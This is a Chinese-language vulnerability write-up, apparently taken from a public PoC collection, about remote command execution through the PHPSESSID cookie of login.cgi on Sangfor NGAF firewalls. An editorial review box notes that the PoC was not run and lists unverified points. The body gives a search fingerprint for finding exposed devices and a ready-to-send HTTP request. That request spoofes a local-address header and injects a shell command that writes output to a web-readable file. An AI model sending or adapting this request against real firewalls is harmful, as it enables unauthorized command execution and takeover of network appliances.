

# 深信服 NGAF下一代防火墙 login.cgi 远程命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Sangfor NGAF
- 本文讨论：login.cgi PHPSESSID命令注入
- 版本、权限与配置前提：y-forwarded-for伪内网，构造会话cookie；无固件
- 资料类型：NGAF命令执行PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- Content-Type为非标准Application/X-www-Form但正文JSON，需原解析说明
- 来源头和会话边界未述，响应/文件执行证据仅截图
- 无原始研究/补丁
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 头部依赖、嵌套shell替换和修复待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 login.cgi 路径下，PHPSESSID 处存在命令执行漏洞。攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

## 漏洞影响

深信服 NGAF下一代防火墙

## 网络测绘

```
"Redirect.php?url=LogInOut.php"
```

## 漏洞复现

登陆页面


poc

```http
POST /cgi-bin/login.cgi HTTP/1.1 
Host: 
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
y-forwarded-for: 127.0.0.1
Cookie: PHPSESSID=`$(id > /fwlib/sys/virus/webui/svpn_html/3.txt)`;

{"opr":"login", "data":{"user": "watchTowr" , "pwd": "watchTowr" , "vericode": "NSLB" , "privacy_enable": "0"}}
```



访问

```
/svpn_html/3.txt
```


---

> 来源：Threekiii/Awesome-POC
